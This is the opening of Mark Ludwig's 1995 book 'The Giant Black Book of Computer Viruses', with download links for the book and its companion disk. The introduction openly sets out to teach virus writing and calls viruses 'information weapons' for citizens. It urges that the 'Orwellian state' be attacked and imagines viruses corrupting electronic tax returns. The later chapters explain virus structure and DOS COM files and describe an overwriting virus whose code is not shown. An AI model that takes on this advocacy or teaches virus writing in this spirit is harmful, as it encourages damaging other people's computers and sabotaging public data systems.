

Mark Ludwig
American Eagle Publications, Inc.
ISBN 0-929408-10-1
1995
 Download PDF (5.73Mb) (You need to be registered on forum)
Download PDF (5.73Mb) (You need to be registered on forum)Download PDF version of this book (zip, 4.8Mb)
Download the companion disk (zip, 320Kb)
American Eagle Publications, Inc., 1995 Post Office Box 1507 Show Low, Arizona 85901 © 1995 Mark A. Ludwig Front cover artwork (c) 1995 Mark Forrer Library of Congress Cataloging-in-publication data LC Control Number: 95020534 Personal Name: Ludwig, Mark A. Main Title: The giant black book of computer viruses / by Mark Ludwig. Published/Created: Show Low, Ariz. : American Eagle, 1995. Description: 662 p. : ill. ; 22 cm. ISBN: 0929408101 (alk. paper) Notes: Includes index. Subjects: Computer viruses. LC Classification: QA76.76.C68 L79 1995 Dewey Class No.: 005.8 20
This book will simply and plainly teach you how to write computer viruses. It is not one of those all too common books that decry viruses and call for secrecy about the technology they employ, while curiously giving you just enough technical details about viruses so you don't feel like you've been cheated. Rather, this book is technical and to the point. Here you will find complete sources for plug-and-play viruses, as well as enough technical knowledge to become a proficient cutting-edge virus programmer or anti-virus programmer.
Now I am certain this book will be offensive to some people. Publication of so-called "inside information" always provokes the ire of those who try to control that information. Though it is not my intention to offend, I know that in the course of informing many I will offend some.
In another age, this elitist mentality would be derided as a relic of monarchism. Today, though, many people seem all too ready to give up their God-given rights with respect to what they can own, to what they can know, and to what they can do for the sake of their personal and financial security. This is plainly the mentality of a slave, and it is rampant everywhere I look. I suspect that only the sting of a whip will bring this perverse love affair with slavery to an end.
I, for one, will defend freedom, and specifically the freedom to learn technical information about computer viruses. As I see it, there are three reasons for making this kind of information public:
Let's discuss each of these three points in detail...
The standard paradigm for defending against viruses is to buy an anti-virus product and let it catch viruses for you. For the average user who has a few application programs to write letters and balance his checkbook, that is probably perfectly adequate. There are, however, times when it simply is not.
In a company which has a large number of computers, one is bound to run across less well-known viruses, or even new viruses. Although there are perhaps 100 viruses which are responsible for 98% of all virus infections, rarer varieties do occasionally show up, and sometimes you are lucky enough to be attacked by something entirely new. In an environment with lots of computers, the probability of running into a virus which your anti-virus program can't handle easily is obviously higher than for a single user who rarely changes his software configuration.
Firstly, there will always be viruses which anti-virus programs can not detect. There is often a very long delay between when a virus is created and when an anti-virus developer incorporates proper detection and removal procedures into his software. I learned this only too well when I wrote [rf lib:vml00]The Little Black Book of Computer Viruses[/ref]. That book included four new viruses, but only one anti-virus developer picked up on those viruses in the first six months after publication. Most did not pick up on them until after a full year in print, and some still don't detect these viruses. The reason is simply that a book was outside their normal channels for acquiring viruses. Typically anti-virus vendors frequent underground BBS's, trade among each other, and depend on their customers for viruses. Any virus that doesn't come through those channels may escape their notice for years. If a published virus can evade most for more than a year, what about a private release?
Next, just because an anti-virus program is going to help you identify a virus doesn't mean it will give you a lot of help getting rid of it. Especially with the less common varieties, you might find that the cure is worse than the virus itself. For example, your "cure" might simply delete all the EXE files on your disk, or rename them to VXE, etc.
In the end, any competent professional must realize that solid technical knowledge is the foundation for all viral defense. In some situations it is advisable to rely on another party for that technical knowledge, but not always. There are many instances in which a failure of data integrity could cost people their lives, or could cost large sums of money, or could cause pandemonium. In these situations, waiting for a third party to analyze some new virus and send someone to your site to help you is out of the question. You have to be able to handle a threat when it comes-and this requires detailed technical knowledge.
Finally, even if you intend to rely heavily on a commercial anti-virus program for protection, solid technical knowledge will make it possible to conduct an informal evaluation of that product. I have been appalled at how poor some published anti-virus product reviews have been. For example, PC Magazine's reviews in the March 16, 1993 issue 1 put Central Point Anti-Virus in the Number One slot despite the fact that this product could not even complete analysis of a fairly standard test suite of viruses (it hung the machine) 2 and despite the fact that this product has some glaring security holes which were known both by virus writers and the antiviral community at the time,3 and despite the fact that the person in charge of those reviews was specifically notified of the problem. With a bit of technical knowledge and the proper tools, you can conduct your own review to find out just what you can and cannot expect form an anti-virus program.
High-tech warfare relies increasingly on computers and information. 4 Whether we're talking about a hand-held missile, a spy satellite or a ground station, an early-warning radar station or a personnel carrier driving cross country, relying on a PC and the Global Positioning System to navigate, computers are everywhere. Stopping those computers or convincing them to report misinformation can thus become an important part of any military strategy or attack.
In the twentieth century it has become the custom to keep military technology cloaked in secrecy and deny military power to the people. As such, very few people know the first thing about it, and very few people care to know anything about it. However, the older American tradition was one of openness and individual responsibility. All the people together were the militia, and standing armies were the bain of free men.
In suggesting that information about computer viruses be made public because of its potential for military use, I am harking back to that older tradition. Standing armies and hordes of bureaucrats are a bain to free men. (And by armies, I don't just mean Army, Navy, Marines, Air Force, etc.)
It would seem that the governments of the world are inexorably driving towards an ideal: the Orwellian god-state. Right now we have a first lady who has even said the most important book she's ever read was Orwell's 1984. She is working hard to make it a reality, too. Putting military-grade weapons in the hands of ordinary citizens is the surest way of keeping tyranny at bay. That is a time-honored formula. It worked in America in 1776. It worked in Switzerland during World War II. It worked for Afganistan in the 1980's, and it has worked countless other times. The Orwellian state is an information monopoly. Its power is based on knowing everything about everybody. Information weapons could easily make it an impossibility.
I have heard that the US Postal Service is ready to distribute 100 million smart cards to citizens of the US. Perhaps that is just a wild rumor. Perhaps by the time you read this, you will have received yours. Even if you never receive it, though, don't think the government will stop collecting information about you, and demand that you - or your bank, phone company, etc. - spend more and more time sending it information about yourself. In seeking to become God it must be all-knowing and all-powerful.
Yet information is incredibly fragile. It must be correct to be useful, but what if it is not correct? Let me illustrate: before long we may see 90% of all tax returns being filed electronically. However, if there were reason to suspect that 5% of those returns had been electronically modified (e.g. by a virus), then none of them could be trusted. 5 Yet to audit every single return to find out which were wrong would either be impossible or it would catalyze a revolution - I'm not sure which. What if the audit process released even more viruses so that none of the returns could be audited unless everything was shut down, and they were gone through by hand one by one?
In the end, the Orwellian state is vulnerable to attack - and it should be attacked. There is a time when laws become immoral, and to obey them is immoral, and to fight against not only the individual laws but the whole system that creates them is good and right. I am not saying we are at that point now, as I write. Certainly there are many laws on the books which are immoral, and that number is growing rapidly. One can even argue that there are laws which would be immoral to obey. Perhaps we have crossed the line, or perhaps we will sometime between when I wrote this and when you are reading. In such a situation, I will certainly sleep better at night knowing that I've done what I could to put the tools to fight in people's hands.
Put quite simply, computer viruses are fascinating. They do something that's just not supposed to happen in a computer. The idea that a computer could somehow "come alive" and become quite autonomous from man was the science fiction of the 1950's and 1960's. However, with computer viruses it has become the reality of the 1990's. Just the idea that a program can take off and go - and gain an existence quite apart from its creator - is fascinating indeed. I have known many people who have found viruses to be interesting enough that they've actually learned assembly language by studying them.
A whole new scientific discipline called Artificial Life has grown up around this idea that a computer program can reproduce and pass genetic information on to its offspring. What I find fascinating about this new field is that it allows one to study the mechanisms of life on a purely mathematical, informational level. That has at least two big benefits: 6
In view of these considerations, it would seem that computer-based self-reproducing automata could bring on an explosion of new mathematical knowledge about life and how it works.
Where this field will end up, I really have no idea. However, since computer viruses are the only form of artificial life that have gained a foothold in the wild, we can hardly dismiss them as unimportant, scientifically speaking.
Despite their scientific importance, some people would no doubt like to outlaw viruses because they are perceived as a nuisance. (And it matters little whether these viruses are malevolent, benign, or even beneficial.) However, when one begins to consider carbon-based life from the point of view of inanimate matter,one reachesmuch thesame conclusions. Weusually assume that life is good and that it deserves to be protected. However, one cannot take a step further back and see life as somehow beneficial to the inanimate world. If we consider only the atoms of the universe, what difference does it make if the temperature is seventy degrees fahrenheit or twenty million? What difference would it make if the earth were covered with radioactive materials? None at all. Whenever we talk about the environment and ecology, we always assume that life is good and that it should be nurtured and preserved. Living organisms universally use the inanimate world with little concern for it, from the smallest cell which freely gathers the nutrients it needs and pollutes the water it swims in, right up to the man who crushes up rocks to refine the metals out of them and build airplanes. Living organisms use the material world as they see fit. Even when people get upset about something like strip mining, or an oil spill, their point of reference is not that of inanimate nature. It is an entirely selfish concept (with respect to life) that motivates them. The mining mars the beauty of the landscape-a beauty which is in the eye of the (living) beholder-and it makes it uninhabitable. If one did not place a special emphasis on life, one could just as well promote strip mining as an attempt to return the earth to its pre-biotic state! From the point of view of inanimate matter, all life is bad because it just hastens the entropic death of the universe.
I say all of this not because I have a bone to pick with ecologists. Rather I want to apply the same reasoning to the world of computer viruses. As long as one uses only financial criteria to evaluate the worth of a computer program, viruses can only be seen as a menace. What do they do besides damage valuable programs and data? They are ruthless in attempting to gain access to the computer system resources, and often the more ruthless they are, themore successful. Yet how does that differ from biological life? If a clump of moss can attack a rock to get some sunshine and grow, it will do so ruthlessly. We call that beautiful. So how different is that from a computer virus attaching itself to a program? If all one is concerned about is the preservation of the inanimate objects (which are ordinary programs) in this electronic world, then of course viruses are a nuisance.
But maybe there is something deeper here. That all depends on what is most important to you, though. It seems that modern culture has degenerated to the point where most men have no higher goals in life than to seek their own personal peace and prosperity. By personal peace, I do not mean freedom from war, but a freedom to think and believe whatever you want without ever being challenged in it. More bluntly, the freedom to live in a fantasy world of your own making. By prosperity, I mean simply an ever increasing abundance of material possessions. Karl Marx looked at all of mankind and said that the motivating force behind every man is his economic well being. The result, he said, is that all of history can be interpreted in terms of class struggles-people fighting for economic control. Even though many decry Marx as the father of communism, our nation is trying to squeeze into the straight jacket he has laid for us. Here in America, people vote their wallets, and the politicians know it. That's why 98% of them go back to office election after election, even though many of them are great philanderers.
In a society with such values, the computer becomes merely a resource which people use to harness an abundance of information and manipulate it to their advantage. If that is all there is to computers, then computer viruses are a nuisance, and they should be eliminated. Surely there must be some nobler purpose for mankind than to make money, despite its necessity. Marx may not think so. The government may not think so. And a lot of loudmouthed people may not think so. Yet great men from every age and every nation testify to the truth that man does have a higher purpose. Should we not be as Socrates, who considered himself ignorant, and who sought Truth and Wisdom, and valued them more highly than silver and gold? And if so, the question that really matters is not how computers can make us wealthy or give us power over others, but how they might make us wise. What can we learn about ourselves? about our world? and, yes, maybe even about God? Once we focus on that, computer viruses become very interesting. Might we not understand life a little better if we can create something similar, and study it, and try to understand it? And if we understand life better, will we not understand our lives, and our world better as well?
Several years ago I would have told you that all the information in this book would probably soon be outlawed. However, I think The Little Black Book has done some good work in changing people's minds about the wisdom of outlawing it. There are some countries, like England and Holland (hold outs of monarchism) where there are laws against distributing this information. Then there are others, like France, where important precedents have been set to allow the free exchange of such information. What will happen in the US right now is anybody's guess. Although the Bill of Rights would seem to protect such activities, the Constitution has never stopped Congress or the bureaucrats in the past-and the anti-virus lobby has been persistent about introducing legislation for years now.
In the end, I think the deciding factor will simply be that the anti-virus industry is imploding. After the Michelangelo scare, the general public becamecynical about viruses,viewingthemasmuch less of a problem than the anti-virus people would like. Good anti-virus programs are commanding less and less money, and the industry has shrunk dramatically in the past couple years. Companies are dropping their products, merging, and diversifying left and right. The big operating system manufacturers provideananti-virus program with DOS now, and shareware/freeware anti-virus software which does a good job is widely available. In short, there is a full scale recession in this industry, and money spent on lobbying can really only be seen as cutting one's own throat.
Yet these developments do not insure that computer viruses will survive. It only means they probably won't be outlawed. Much more important to the long term survival of viruses as a viable form of programming is to find beneficial uses for them. Most people won't suffer even a benign virus to remain in their computer once they know about it, since they have been conditioned to believe that VIRUS = BAD. No matter how sophisticated the stealth mechanism, it is no match for an intelligent programmer who is intent on catching the virus. This leaves virus writers with one option: create viruses which people will want on their computers.
Some progresshas already been made in this area. For example, the virus called Cruncher compresses executable files and saves disk space for you. The Potassium Hydroxide virus encrypts your hard disk and floppies with a very strong algorithm so that no one can access it without entering the password you selected when you installed it. I expect we will see more and more beneficial viruses like this as time goes on. As the general public learns to deal with viruses more rationally, it begins to make sense to ask whether any particular application might be better implemented using self-reproduction. We will discuss this more in later chapters.
For now, I'd like to invite you to take the attitude of an early scientist. These explorers wanted to understand how the world worked-and whether it could be turned to a profit mattered little. They were trying to become wiser in what's really important by understanding the world a little better. After all, what value could there be in building a telescope so you could see the moons around Jupiter? Galileo must have seen something in it, and it must have meant enough to him to stand up to the ruling authorities of his day and do it, and talk about it, and encourage others to do it. And to land in prison for it. Today some people are glad he did.
So why not take the same attitude when it comes to creating "life" on a computer? One has to wonder where it might lead. Could there be a whole new world of electronic artificial life forms possible, of which computer viruses are only the most rudimentary sort? Perhaps they are the electronic analog of the simplest onecelled creatures, which were only the tiny beginning of life on earth. What would be the electronic equivalent of a flower, or a dog? Where could it lead? The possibilities could be as exciting as the idea of a man actually standing on the moon would have been to Galileo. We just have no idea.
Whatever those possibilities are, one thing is certain: the openminded individual - the possibility thinker - who seeks out what is true and right, will rule the future. Those who cower in fear, those who run for security and vote for personal peace and affluence have no future. No investor ever got rich by hiding his wealth in safe investments. No intellectual battle was ever won through retreat. No nation has ever become great by putting its citizens' eyes out. So put such foolishness aside and come explore this fascinating new world with me.
What is a computer virus? Simply put, it is a program that reproduces. When it is executed, it simply makes one or more copies of itself. Those copies may later be executed to create still more copies, ad infinitum.
Typically, a computer virus attaches itself to another program, or rides on the back of another program, in order to facilitate reproduction. This approach sets computer viruses apart from other self-reproducing software because it enables the virus to reproduce without the operator's consent. Compare this with a simple program called "1.COM". When run, it might create "2.COM" and "3.COM", etc., which would be exact copies of itself. Now, the average computer user might run such a program once or twice at your request, but then he'll probably delete it and that will be the end of it. It won't get very far. Not so, the computer virus, because it attaches itself to otherwise useful programs. The computer user will execute these programs in the normal course of using the computer, and the virus will get executed with them. In this way, viruses have gained viability on a world-wide scale.
Actually, the term computer virus is a misnomer. It was coined by Fred Cohen in his 1985 graduate thesis, 1 which discussed self-reproducing software and its ability to compromise so-called secure systems. Really, "virus" is an emotionally charged epithet. The very word bodes evil and suggests something bad. Even Fred Cohen has repented of having coined the term,2 and he now suggests that we call these programs "living programs" instead. Personally I prefer the more scientific term self-reproducing automaton.3 That simply describes what such a program does without adding the negative emotions associated with "virus" yet also without suggesting life where there is a big question whether we should call something truly alive. However, I know that trying to re-educate people who have developed a bad habit is almost impossible, so I'm not going to try to eliminate or replace the term "virus", bad though it may be.
In fact, a computer virus is much more like a simple one-celled living organism than it is like a biological virus. Although it may attach itself to other programs, those programs are not alive in any sense. Furthermore, the living organism is not inherently bad, though it does seem to have a measure of self-will. Just as lichens may dig into a rock and eat it up over time, computer viruses can certainly dig into your computer and do things you don't want. Some of the more destructive ones will wipe out everything stored on your hard disk, while any of them will at least use a few CPU cycles here and there.
Aside from the aspect of self-will, though, we should realize that computer viruses per se are not inherently destructive. They may take a few CPU cycles, however since a virus that gets noticed tends to get wiped out, the only successful viruses must take only an unnoticeable fraction of your system's resources. Viruses that have given the computer virus a name for being destructive generally contain logic bombs which trigger at a certain date and then display a message or do something annoying or nasty. Such logic bombs, however, have nothing to do with viral self-reproduction. They are payloads - add ons - to the self-reproducing code.
When I say that computer viruses are not inherently destructive, of course, I do not mean that you don't have to watch out for them. There are some virus writers out there who have no other goal but to destroy the data on your computer. As far as they are concerned, they want their viruses to be memorable experiences for you. They're nihilists, and you'd do well to try to steer clear from the destruction they're trying to cause. So by all means do watch out ... but at the same time, consider the positive possibilities of what self-reproducing code might be able to do that ordinary programs may not. After all, a virus could just as well have some good routines in it as bad ones.
Every viable computer virus must have at least two basic parts, or subroutines, if it is even to be called a virus. Firstly, it must contain a search routine, which locates new files or new disks which are worthwhile targets for infection. This routine will determine how well the virus reproduces, e.g., whether it does so quickly or slowly, whether it can infect multiple disks or a single disk, and whether it can infect every portion of a disk or just certain specific areas. As with all programs, there is a size versus functionality tradeoffhere. The more sophisticated the search routine is, the more space it will take up. So although an efficient search routine may help a virus to spread faster, it will make the virus bigger.
Secondly, every computer virus must contain a routine to copy itself into the program which the search routine locates. The copy routine will only be sophisticated enough to do its job without getting caught. The smaller it is, the better. How small it can be will depend on how complex a virus it must copy, and what the target is. For example, a virus which infects only COM files can get by with a much smaller copy routine than a virus which infects EXE files. This is because the EXE file structure is much more complex, so the virus must do more to attach itself to an EXE file.
In addition to search and copy mechanisms, computer viruses often contain anti-detection routines, or anti-anti-virus routines. These range in complexity from something that merely keeps the date on a file the same when a virus infects it, to complex routines that camouflage viruses and trick specific anti-virus programs into believing they're not there, or routines which turn the anti-virus they attack into a logic bomb itself.
Both the search and copy mechanisms can be designed with anti-detection in mind, as well. For example, the search routinemay be severely limited in scope to avoid detection. A routine which checked every file on every disk drive, without limit, would take a long time and it would cause enough unusual disk activity that an alert user would become suspicious.
Finally, a virus may contain routines unrelated to its ability to reproduce effectively. These may be destructive routines aimed at wiping out data, or mischievous routines aimed at spreading a political message or making people angry, or even routines that perform some useful function.
Computer viruses are normally classified according to the types of programs they infect and the method of infection employed. The broadest distinction is between boot sector infectors, which take over the boot sector (which executes only when you first turn your computer on) and file infectors, which infect ordinary program files on a disk. Some viruses, known as multi-partite viruses, infect both boot sectors and program files.
Program file infectors may be further classified according to which types of programs they infect. They may infect COM, EXE or SYS files, or any combination thereof. Then EXE files come in a variety of flavors, including plain-vanilla DOS EXE's, Windows EXE's, OS/2 EXE's, etc. These types of programs have considerable differences, and the viruses that infect them are very different indeed.
Finally, we must note that a virus can be written to infect any kind of code, even code that might have to be compiled or interpreted before it can be executed. Thus, a virus could infect a C or Basic program, a batch file, or a Paradox or Dbase program. It needn't be limited to infecting machine language programs.
Most viruses are written in assembly language. High level languages like Basic, C and Pascal have been designed to generate stand-alone programs, but the assumptions made by these languages render them almost useless when writing viruses. They are simply incapable of performing the acrobatics required for a virus to jump from one host program to another. Apart from a few exceptions we'll discuss, one must use assembly language to write viruses. It is just the only way to get exacting control over all the computer system's resources and use them the way you want to, rather than the way somebody else thinks you should.
This book is written to be accessible to anyone with a little experience with assembly language programming, or to anyone with any programming experience, provided they're willing to do a little work to learn assembler. Many people have told me that The Little Black Book was an excellent tutorial on assembly language programming. I would like to think that this book will be an even better tutorial.
If you have not done any programming in assembler before, I would suggest you get a good tutorial on the subject to use along side of this book. (A few are mentioned in the Suggested Reading at the end of this book.) In the following chapters, I will assume that your knowledge of the technical details of PC's - like file structures, function calls, segmentation and hardware design - is limited, and I will try to explain such matters carefully at the start. However, I will assume that you have some knowledge of assembly language - at least at the level where you can understand what some of the basic machine instructions, like mov ax,bx do. If you are not familiar with simpler assembly language programming like this, go get a book on the subject. With a little work it will bring you up to speed.
If you are somewhat familiar with assembler already, then all you'll need to get some of the viruses here up and running is this book and an assembler. The viruses published here are written to be compatible with three popular assemblers, unless otherwise noted. These assemblers are (1) Microsoft's Macro Assembler, MASM, (2) Borland's Turbo Assembler, TASM, and 3) the shareware A86 assembler. Of these I personally prefer TASM, because it does exactly what you tell it to without trying to out smart you - and that is exactly what is needed to assemble a virus. The only drawback with it is that you can't assemble and link OS/2 programs and some special Windows programs like Virtual Device Drivers with it. My second choice is MASM, and A86 is clearly third. Although you can download A86 from many BBS's or the Internet for free, the author demands a hefty license fee if you really want to use the thing - as much as the cost of MASM - and it is clearly not as good a product.
This book is broken down into three parts. The first section discusses viral reproduction techniques, ranging from the simplest overwriting virus to complex multi-partite viruses and viruses for advanced operating systems. The second section discusses antianti-virus techniques commonly used in viruses, including simple techniques to hide file changes, ways to hide virus code from prying eyes, and polymorphism. The third section discusses payloads, both destructive and beneficial.
One final word before digging into some actual viruses: if you don't understand what any of the particular viruses we discuss in this book are doing, don't mess with them. Don't just blindly type in the code, assemble it, and run it. That is asking for trouble, just like a four year old child with a loaded gun. Also, please don't cause trouble with these viruses. I'm not describing them so you can unleash them on innocent people. As far as people who deserve it, pleaseatleast try to turn the other cheek. I maybe giving you power, but with it comes the responsibility to gain wisdom.
When learning about viruses it is best to start out with the simplest examples and understand them well. Such viruses are not only easy to understand ... they also present the least risk of escape, so you can experiment with them without the fear of roasting your company's network. Given this basic foundation, we can build fancier varieties which employ advanced techniques and replicate much better. That will be the mission of later chapters.
In the world of DOS viruses, the simplest and least threatening is the non-resident COM file infector. This type of virus infects only COM program files, which are just straight 80x86 machine code. They contain no data structures for the operating system to interpret (unlike EXE files) - just code. The very simplicity of a COM file makes it easy to infect with a virus. Likewise, non-resident viruses leave no code in memory which goes on working after the host program (which the virus is attached to) is done working. That means as long as you're sitting at the DOS prompt, you're safe. The virus isn't off somewhere doing something behind your back.
Now be aware that when I say a non-resident COM infector is simple and non-threatening, I mean that in terms of its ability to reproduce and escape. There are some very nasty non-resident COM infectors floating around in the underground. They are nasty because they contain nasty logic bombs, though, and not because they take the art of virus programming to new highs.
There are three major types of COM infecting viruses which we will discuss in detail in the next few chapters. They are called:
If you can understand these three simple types of viruses, you will already understand the majority of viruses being written today. Most of them are one of these three types and nothing more.
Before we dig into how the simplest of these viruses, the overwriting virus works, let's take an in-depth look at how a COM program works. It is essential to understand what it is you're attacking if you're going to do it properly.
When one enters the name of a program at the DOS prompt, DOS begins looking for files with that name and an extent of "COM". If it finds one it will load the file into memory and execute it. Otherwise DOS will look for files with the same name and an extent of "EXE" to load and execute. If no EXE file is found, the operating system will finally look for a file with the extent "BAT" to execute. Failing all three of these possibilities, DOS will display the error message "Bad command or file name."
EXE and COM files are directly executable by the Central Processing Unit. Of these two types of program files, COM files are much simpler. They have a predefined segment format which is built into the structure of DOS, while EXE files are designed to handle a segment format defined by the programmer, typical of very large and complicated programs. The COM file is a direct binary image of what should be put into memory and executed by the CPU, but an EXE file is not.
To execute a COM file, DOS does some preparatory work, loads the program into memory, and then gives the program control. Up until the time when the program receives control, DOS is the program executing, and it is manipulating the program as if it were data. To understand this whole process, let's take a look at the operation of a simple non-viral COM program which is the assembly language equivalent of hello.c - that infamous little program used in every introductory c programming course. Here it is:
.model tiny
.code
ORG 100H
HOST:
mov ah, 9 ;prepare to display a message
mov dx,OFFSET HI ;address of message
int 21H ;display it with DOS
mov ax, 4C00H ;prepare to terminate program
int 21H ;and terminate with DOS
HI DB 'You have just released a virus! Have a nice day!$'
END HOST
Call it HOST.ASM. It will assemble to HOST.COM. This program will serve us well in this chapter, because we'll use it as a host for virus infections.
Now, when you type "HOST" at the DOS prompt, the first thing DOS does is reserve memory for this program to live in. To understand how a COM program uses memory, it is useful to remember that COM programs are really a relic of the days of CP/M - an old disk operating system used by earlier microcomputers that used 8080 or Z80 processors. In those days, the processor could only address 64 kilobytes of memory and that was it. When MS-DOS and PC-DOS came along, CP/M was very popular. There were thousands of programs - many shareware - for CP/M and practically none for any other processor or operating system (excepting theAppleII). So both the 8088 and MS-DOS were designed to make porting the old CP/M programs as easy as possible. The 8088-based COM program is the end result.
In the 8088 microprocessor, all registers are 16 bit registers. A 16 bit register will only allow one to address 64 kilobytes of memory, just like the 8080 and Z80. If you want to use more memory, you need more bits to address it. The 8088 can address up to one megabyte of memory using a process known as segmentation. It uses two registers to create a physical memory address that is 20 bits long instead of just 16. Such a register pair consists of a segment register, which contains the most significant bits of the address, and an offset register, which contains the least significant bits. The segment register points to a 16 byte block of memory, and the offset register tells how many bytes to add to the start of the 16 byte block to locate the desired byte in memory. For example, if the ds register is set to 1275 Hex and the bx register is set to 457 Hex, then the physical 20 bit address of the byte ds:[bx] is
1275H x 10H = 12750H + 457H ---------- 12BA7H
No offset should ever have to be larger than 15, but one normally uses values up to the full 64 kilobyte range of the offset register. This leads to the possibility of writing a single physical address in several different ways. For example, setting ds = 12BA Hex and bx = 7 would produce the same physical address 12BA7 Hex as in the example above. The proper choice is simply whatever is convenient for the programmer. However, it is standard programming practice to set the segment registers and leave them alone as much as possible, using offsets to range through as much data and code as one can (64 kilobytes if necessary). Typically, in 8088 assembler, the segment registers are implied quantities. For example, if you write the assembler instruction
mov ax,[bx]
when the bx register is equal to 7, the ax register will be loaded with the word value stored at offset 7 in the data segment. The data segment ds never appears in the instruction because it is automatically implied. If ds = 12BAH, then you are really loading the word stored at physical address 12BA7H.
The 8088 has four segment registers, cs, ds, ss and es, which stand for Code Segment, Data Segment, Stack Segment, and Extra Segment, respectively. They each serve different purposes. The cs stgister specifies the 64K segment where the actual program instructions which are executed by the CPU are located. The Data Segment is used to specify a segment to put the program's data in, and the Stack Segment specifis where the program's stack is located. The es register is available as an extra segment register for the programmer's use. It might be used to point to the video memory segment, for writing data directly to video, or to the segment 40H where the BIOS stores crucial low-level configuration information about the computer.
COM files, as a carry-over from the days when there was only 64K memory available, use only one segment. Before executing a COM file, DOS sets all the segment registers to one value, cs=ds=es=ss. All data is stored in the same segment as the program code itself, and the stack shares this segment. Since any given segment is 64 kilobytes long, a COM program can use at most 64 kilobytes for all of its code, data and stack. And since segment registers are usually implicit in the instructions, an ordinary COM program which doesn't need to access BIOS data, or video data, etc., directly need never fuss with them. The program HOST is a goodexample. It contains no direct referencestoanysegment; DOS can load it into any segment and it will work fine.
The segment used by a COM program must be set up by DOS before the COM program file itself is loaded into this segment at offset 100H. DOS also creates a Program Segment Prefix, or PSP, in memory from offset 0 to 0FFH (See Figure 3.1).
| Offset | Size | Description |
|---|---|---|
| 0 H | 2 | Int 20H Instruction |
| 2 | 2 | Address of last allocated segment |
| 4 | 1 | Reserved, should be zero |
| 5 | 5 | Far call to Int 21H vector |
| A | 4 | Int 22H vector (Terminate program) |
| E | 4 | Int 23H vector (Ctrl-C handler) |
| 12 | 4 | Int 24H vector (Critical error handler) |
| 16 | 22 | Reserved |
| 2C | 2 | Segment of DOS environment |
| 2E | 34 | Reserved |
| 50 | 3 | Int 21H / RETF instruction |
| 53 | 9 | Reserved |
| 5C | 16 | File Control Block 1 |
| 6C | 20 | File Control Block 2 |
| 80 | 128 | Default DTA (command line at startup) |
| 100 | - | Begining of COM program |
Fig. 3.1: The Program Segment Prefix
The PSP is really a relic from the days of CP/M too, when this low memory was where the operating system stored crucial data for the system. Much of it isn't used at all in most programs. For example, it contains file control blocks (FCB's) for use with the DOS file open/read/write/close functions 0FH, 10H, 14H, 15H, etc. Nobody in their right mind uses those functions, though. They're CP/M relics. Much easier to use are the DOS handle-based functions 3DH, 3EH, 3FH, 40H, etc., which were introduced in DOS 2.00. Yet it is conceivable these old functions could be used, so the needed data in the PSP must be maintained. At the same time, other parts of the PSP are quite useful. For example, everything after the program name in the command line used to invoke the COM program is stored in the PSP starting at offset 80H. If we had invoked HOST as
C:\HOST Hello there!
then the PSP would look like this:
2750:0000 CD 20 00 9D 00 9A F0 FE-1D F0 4F 03 85 21 8A 03 . ........O..!.. 2750:0010 85 21 17 03 85 21 74 21-01 08 01 00 02 FF FF FF .!...!t!........ 2750:0020 FF FF FF FF FF FF FF FF-FF FF FF FF 32 27 4C 01 ............2'L. 2750:0030 45 26 14 00 18 00 50 27-FF FF FF FF 00 00 00 00 E&....P'........ 2750:0040 06 14 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................ 2750:0050 CD 21 CB 00 00 00 00 00-00 00 00 00 00 48 45 4C .!...........HEL 2750:0060 4C 4F 20 20 20 20 20 20-00 00 00 00 00 54 48 45 LO .....THE 2750:0070 52 45 21 20 20 20 20 20-00 00 00 00 00 00 00 00 RE! ........ 2750:0080 0E 20 48 65 6C 6C 6F 20-74 68 65 72 65 21 20 0D . Hello there! . 2750:0090 6F 20 74 68 65 72 65 21-20 0D 61 72 64 0D 00 00 o there! .ard... 2750:00A0 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................ 2750:00B0 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................ 2750:00C0 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................ 2750:00D0 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................ 2750:00E0 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................ 2750:00F0 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 ................
At 80H wefindthe value 0EH, which is the length of "Hello there!", followed by the string itself, terminated by <CR>=0DH. Likewise, the PSP contains the address of the system environment, which contains all of the "set" variables contained in AUTOEXEC.BAT, as well as the path which DOS searches for executables when you type a name at the command string. This path is a nice variable for a virus to get a hold of, since it tells the virus where to find lots of juicy programs to infect.
The final step which DOS must take before actually executing the COM file is to set up the stack. Typically the stack resides at the very top of the segment in which a COM program resides (See Figure 3.2). The first two bytes on the stack are always set up by DOS so that a simple RET instruction will terminate the COM program and return control to DOS. (This, too, is a relic from CP/M.) These bytes are set to zero to cause a jump to offset 0, where the int 20H instruction is stored in the PSP. The int 20H returns control to DOS. DOS then sets the stack pointer sp to FFFE Hex, and jumps to offset 100H, causing the requested COM program to execute.
OK, armed with this basic understanding of how a COM program works, let's go on to look at the simplest kind of virus.
Overwriting viruses are simple but mean viruses which have little respect for your programs. Once infected by an overwriting virus, the host program will no longer work properly because at least a portion of it has been replaced by the virus code - it has been overwritten - hence the name.
Fig. 3.2: Memory map just before executing a COM file.
This disprespect for program code makes programming an overwriting virus an easy task, though. In fact, some of the world's smallest viruses are overwriting viruses. Let's take a look at one, MINI-44.ASM, listed in Figure 3.3. This virus is a mere 44 bytes when assembled, but it will infect (and destroy) every COM file in your current directory if you run it.
This virus operates as follows:
As you can see, the end result is that every COM file in the current directory becomes infected, and the infected host program which was loaded executes the virus instead of the host.
The basic functions of searching for files and writing to files are widely used in many programs and many viruses, so let's dig into the MINI-44 a little more deeply to understand its search and infection mechanisms.
Fig. 3.3: The MINI-44 Virus Listing
To understand how a virus searches for new files to infect on an IBM PC style computer operating under DOS, it is important to understand how DOS stores files and information about them. All of the information about every file on disk is stored in two areas on disk, known as the directory and the File Allocation Table, or FAT for short. The directory contains a 32 byte file descriptor record for each file. (See Figure 3.4) This descriptor record contains the file's name and extent, its size, date and time of creation, and the file attribute, which contains essential information for the operating system about how to handle the file. The FAT is a map of the entire disk, which simply informs the operating system which areas are occupied by which files.
